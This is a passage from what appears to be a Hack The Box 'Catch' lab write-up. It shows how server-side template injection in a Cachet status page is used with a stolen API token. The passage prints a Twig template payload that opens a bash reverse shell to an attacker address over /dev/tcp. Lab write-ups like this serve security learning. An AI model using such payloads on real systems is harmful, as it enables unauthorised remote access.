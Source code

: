 Afterwards, we will send a POST request to http://catch.htb:8000/api/v1/incidents with the X-Cachet-Token header using the ```api_key``` value for john@catch.htb that we have obtained from the sqlmap earlier.

![Output of SSTI](https://github.com/joelczk/writeups/blob/main/HTB/Images/Catch/SSTI_output.png)

Using the same method, we can first supply a reverse shell payload to http://catch.htb:8000/dashboard/templates/create

```
{{["/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/4000 0>&1'"]|filter("system")|join(",")}}
```

![Crafting reverse shell payload](https://github.com/joelczk/writeups/blob/main/HTB/Images/Catch/reverse_shell_payload.png)

Lastly, all we have to do is to send a POST request with the X-Cachet-Token to http://catch.htb:8000/api/v1/incidents to spawn the reverse shell.

![Obtaining reverse shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Catch/reverse_shell.png)
